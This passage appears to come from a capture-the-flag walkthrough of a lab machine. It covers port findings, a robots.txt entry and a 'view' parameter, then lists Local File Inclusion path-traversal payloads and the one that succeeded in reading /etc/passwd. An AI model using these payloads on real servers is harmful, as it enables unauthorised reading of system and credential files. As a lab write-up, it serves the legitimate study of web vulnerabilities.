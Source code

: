 ```
```

From the output it can be seen that only 2 ports are open which are 22 and 80. So, nothing interesting over here. But under port 80 we can see there is a disallowed entry for `/test.php` mentioned in the `robots.txt` file. 

We can visit the `/test.php` page to see if we can obtain some useful information.

![test](./.images/test.png)

On this page, we can't see much except a button which when clicked prints "Control is an illusion". But if we see closely, then when we click on the button the parameter `?view=/var/www/html/development_testing/mrrobot.php` gets added to the URL. The entire path of the page `mrrobot.php` is provided over here which appears to be a bit odd because normally relative paths can be used. 

## Gaining Access

We can test the `?view=` parameter for Local File Inclusion (LFI). We can test the following:

```http
?view=../../../../../etc/passwd
?view=....//....//....//....//....//etc/passwd
?view=....\\/....\\/....\\/etc/passwd
?view=..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```

But none of these appear to be working. At this point, if we recall that when the button was clicked it displayed the entire path to the file. So, it might be the case that in the backend the entire path might be getting checked. In such a case we can change our payloads as:

```http
?view=/var/www/html/development_testing/....//....//....//....//....//...//etc/passwd%00
?view=/var/www/html/development_testing/../../../../../etc/passwd%00
?view=/var/www/html/development_testing/....\\/....\\/....\\/....\\/....\\/....\\/etc/passwd%00
?view=/var/www/html/development_testing/..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```

But none of these work. The payload that worked was:

```http
?view=/var/www/html/development_testing/..//..//..//..//..//..//etc/passwd
```

This printed the entire content of the `/etc/passwd` file.
